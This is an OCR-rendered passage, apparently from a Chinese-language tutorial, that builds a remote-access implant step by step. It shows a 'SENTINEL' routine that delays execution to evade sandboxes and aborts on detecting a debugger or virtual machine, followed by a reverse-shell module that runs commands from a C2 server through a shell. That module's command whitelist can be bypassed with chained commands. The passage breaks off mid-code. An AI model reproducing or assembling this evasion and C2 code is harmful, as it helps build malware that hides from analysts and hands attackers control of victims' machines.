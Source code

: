 ```python
    def run_checks(self):
        """执行所有检查"""
        print("[SENTINEL] Running environment checks...")
    
        # 1. 延迟激活
        print(f"[SENTINEL] Delaying execution for {self.activation_delay} seconds to evade basic sandboxes.")
        time.sleep(self.activation_delay)

        # 2. 检查调试器 (一个非常基础的检查)
        if sys.gettrace() is not None:
            print("[SENTINEL] Debugger detected. Aborting.")
            return False

        # 3. 检查VM痕迹
        if self.check_vm_files() or self.check_mac_address():
            print("[SENTINEL] Virtualized environment detected. Aborting.")
            return False

        print("[SENTINEL] Environment seems clean. Proceeding with execution.")
        self.is_safe = True
        return True

```

---

### **第3步: 反向 Shell 处理器 (`shell_handler.py`)**

此模块负责解析和执行来自C2的命令。为了安全，它只允许执行一小部分白名单命令。

**`shell_handler.py`**

```python
import subprocess
import os

class ShellHandler:
    def __init__(self):
        # 为了安全，只允许执行无害的命令
        self.whitelist_commands = ["whoami", "ls", "dir", "pwd", "hostname", "echo"]

    def execute_command(self, command_string):
        """
        执行命令并返回输出
        """
        try:
            cmd_parts = command_string.split()
            command = cmd_parts[0].lower()

            if command not in self.whitelist_commands:
                return f"Error: Command '{command}' is not allowed."

            if command == 'ls' and os.name == 'nt':
                command_string = 'dir'
            elif command == 'dir' and os.name != 'nt':
                command_string = 'ls'
        
            # 执行命令
            result = subprocess.run(
                command_string, 
                shell=True, 
                capture_output=True, 
                text=True,
```